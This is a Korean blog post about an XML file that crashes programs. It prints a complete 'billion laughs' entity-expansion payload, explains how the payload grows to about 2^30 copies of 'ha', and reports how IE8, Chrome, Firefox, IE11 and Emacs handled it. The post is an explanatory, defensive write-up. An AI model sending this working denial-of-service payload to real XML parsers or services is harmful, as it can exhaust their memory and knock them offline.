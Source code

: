 date: 2011-04-14
tags: security
title: 교활한 XML
---
XML 파일이 프로그램을 죽일 수도 있다는 생각은 하지 못했다. XML은 그저 텍스트일 뿐이고 프로그램은 그저 파일을 읽어서 처리할 뿐인데... 그런데 다음과 같은 파일을 보고서야 그럴 수도 있다는 것을 알게 되었다.
<!-- more -->

```
<?xml version="1.0"?>
<!DOCTYPE billion [
<!ELEMENT billion (#PCDATA)>
<!ENTITY laugh0 "ha">
<!ENTITY laugh1 "&laugh0;&laugh0;">
<!ENTITY laugh2 "&laugh1;&laugh1;">
<!ENTITY laugh3 "&laugh2;&laugh2;">
<!ENTITY laugh4 "&laugh3;&laugh3;">
<!ENTITY laugh5 "&laugh4;&laugh4;">
<!ENTITY laugh6 "&laugh5;&laugh5;">
<!ENTITY laugh7 "&laugh6;&laugh6;">
<!ENTITY laugh8 "&laugh7;&laugh7;">
<!ENTITY laugh9 "&laugh8;&laugh8;">
<!ENTITY laugh10 "&laugh9;&laugh9;">
<!ENTITY laugh11 "&laugh10;&laugh10;">
<!ENTITY laugh12 "&laugh11;&laugh11;">
<!ENTITY laugh13 "&laugh12;&laugh12;">
<!ENTITY laugh14 "&laugh13;&laugh13;">
<!ENTITY laugh15 "&laugh14;&laugh14;">
<!ENTITY laugh16 "&laugh15;&laugh15;">
<!ENTITY laugh17 "&laugh16;&laugh16;">
<!ENTITY laugh18 "&laugh17;&laugh17;">
<!ENTITY laugh19 "&laugh18;&laugh18;">
<!ENTITY laugh20 "&laugh19;&laugh19;">
<!ENTITY laugh21 "&laugh20;&laugh20;">
<!ENTITY laugh22 "&laugh21;&laugh21;">
<!ENTITY laugh23 "&laugh22;&laugh22;">
<!ENTITY laugh24 "&laugh23;&laugh23;">
<!ENTITY laugh25 "&laugh24;&laugh24;">
<!ENTITY laugh26 "&laugh25;&laugh25;">
<!ENTITY laugh27 "&laugh26;&laugh26;">
<!ENTITY laugh28 "&laugh27;&laugh27;">
<!ENTITY laugh29 "&laugh28;&laugh28;">
<!ENTITY laugh30 "&laugh29;&laugh29;">
]>
<billion>&laugh30;</billion>
```

우리회사 프로그램이 제대로 처리하지 못한다며 고객이 보내준 XML 파일이다. 이 파일을 Chrome이나 Firefox와 같은 브라우저에서 열면 즉각 에러를 표시한다.

![](chrome.png)

그러나 IE8에서 열면 브라우저 화면에 아무것도 나타나지 않지만 CPU를 계속 사용하고 메모리도 계속 늘어난다. 메모리 사용량이 거의 1GB가까지 늘어나는 것을 보고 죽여야 했다. IE8도 이 XML 파일을 제대로 처리하지 못하는 것이다.

파일 내용을 보면 `laugh0` ~ `laugh30`까지 31개의 엔터티를 정의하는데 `laugh0`은 "ha"로 정의되어 있고 나머지 엔터티는 이전 엔터티를 두번 참조하는 것으로 정의되어 있다. `laugh1`은 `laugh0`이 두번 나오는 것이고, `laugh2`는 `laugh1`이 두번 나오는 것이다. 이런 식으로 `laugh30`까지 간다. 따라서 엔터티를 모두 확장해보면...

```
laugh0 --> ha
laugh1 --> haha
laugh2 --> hahahaha
laugh3 --> hahahahahahahaha
laugh4 --> hahahahahahahahahahahahahahahaha
laugh5 --> hahahahahahahahahahahahahahahahahahahahahahahahahahahahahahahaha
...
```
`<billion>&laugh30;</billion>`을 표시하려면 "ha"를 2<sup>30</sup>번 표시해야 한다. 2<sup>30</sup>이면 1G에 해당하는 크기다. "ha"를 2바이트라고 하면 이 XML 문서를 표시하기 위해 2GB 길이의 문자열을 표시해야 하는 것이다.

이 교활한 XML 파일을 읽고는 프로그램이 죽어버리거나 제대로 처리하지 못하는 것도 이해할만하지만 잘 작성된 프로그램이라면 그러지 말아야 한다. Chrome이나 Firefox는 이런 문제가 생길 수 있다는 것을 즉각 알아채고 에러 메시지를 표시한다. 잘 작성된 프로그램이다. IE8은 그렇지 못하다.

이 XML 파일을 보고서야 XML 문서로 프로그램을 공격할 수 있다는 걸 알게 되었고, 프로그램을 작성할 때도 이런 공격에 대비를 해야 한다는 것도 알게 되었다.

## 업데이트 (2014-11-12)
* 윈도우7 IE11에서 위 XML 파일을 열어보면 예전의 IE8 처럼 삽질을 하지 않는다. 그저 조용히 맨 아랫줄 `<billion>&laugh30;</billion>`을 제거하고 아무런 에러 메시지도 표시하지 않는다. 브라우저가 멈춰버리지는 않지만 친절한 UX라 할 수는 없다.
* Emacs(24.4.1) 에디터에서 위 XML 파일을 열면 응답하지 않는 상태가 된다. XML 소스를 scratch 버퍼에 붙여넣는 것은 되지만 이를 XML 파일로 저장하려 하면 역시 응답하지 않는 상태가 된다. 프로세스가 CPU를 계속 사용하는 것으로 보아 뭔가 삽질을 하고 있는게 분명하다.
